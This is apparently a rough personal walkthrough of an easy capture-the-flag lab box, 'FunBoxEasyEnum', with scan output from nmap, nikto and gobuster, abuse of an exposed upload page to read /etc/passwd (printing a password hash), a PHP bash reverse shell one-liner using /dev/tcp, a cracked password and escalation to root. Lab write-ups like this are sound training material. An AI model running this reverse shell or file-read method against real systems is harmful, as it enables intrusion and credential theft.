


Name: FunBoxEasyEnum
Date: 03/05/2022
Difficulty: Easy
Description: Don't hesitate Enumerate
Better Description:  
Goals: 
Learnt: 

## Recon

```bash
ping -c 3 192.168.55.132                  
PING 192.168.55.132 (192.168.55.132) 56(84) bytes of data.
64 bytes from 192.168.55.132: icmp_seq=1 ttl=63 time=38.5 ms
64 bytes from 192.168.55.132: icmp_seq=2 ttl=63 time=36.2 ms
64 bytes from 192.168.55.132: icmp_seq=3 ttl=63 time=61.8 ms

--- 192.168.55.132 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 36.196/45.480/61.750/11.542 ms

nmap -F 192.168.55.132    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Nmap scan report for 192.168.55.132
Host is up (0.064s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 second

nmap -sC -sV -T 4 -p- 192.168.55.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-03 08:54 BST
Warning: 192.168.55.132 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.55.132
Host is up (0.043s latency).
Not shown: 65504 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 291.88 seconds

nikto -h 192.168.55.132                      
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.55.132
+ Target Hostname:    192.168.55.132
+ Target Port:        80
+ Start Time:         2022-05-03 09:17:40 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5af9903d91639, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD 
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 8073 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2022-05-03 09:25:55 (GMT1) (495 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Default credentials for phpmyadmin did not work, but produce this error exposing mysql server.

```php
mysqli_real_connect(): (HY000/1698): Access denied for user 'root'@'localhost'
```


```bash

gobuster dir -u http://192.168.55.132/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.55.132/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/03 10:00:25 Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 321] [--> http://192.168.55.132/javascript/]
/mini.php             (Status: 200) [Size: 3828]                                       
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.55.132/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]                                        
                                                                                       
===============================================================
2022/05/03 10:38:51 Finished
===============================================================

```
Mini.php allow uploads tried uploading pentest monkey php reverse shell.
I also is a file system under /var/



While thinking I how and why stuff executes on this box:
Chmod is weird.
Replace mini.php with reverse shell or better add a line. It seems like the only thing that can be executed. See ## Foothold


/var/www/local.txt for first flag
You can also go to the '/' directory

http://192.168.64.132/mini.php?filesrc=//etc/passwd&path=//etc
```
# weird hash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```
http://192.168.64.132/mini.php?filesrc=//etc/hosts&path=//etc
funbox7 is running on 127.0.1.1


## Foothold

```php

exec("/bin/bash -c 'bash -i > /dev/tcp/$IP/$PORT 0>&1'");

```
Went back to the hash it is:

hiphop

```bash
oracle@funbox7:/tmp$ mysql -u oracle -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'oracle'@'localhost' (using password: YES)
```
Enumerated again and found nothing. I learnt lot about the length of memory for recursive solving.
I was also possible to see this before as www-data



Went to the webpage logged in nothing on the database.
Password reuse? Highest user is Karla


```bash
sudo su root 
cat /root/proof.txt
```
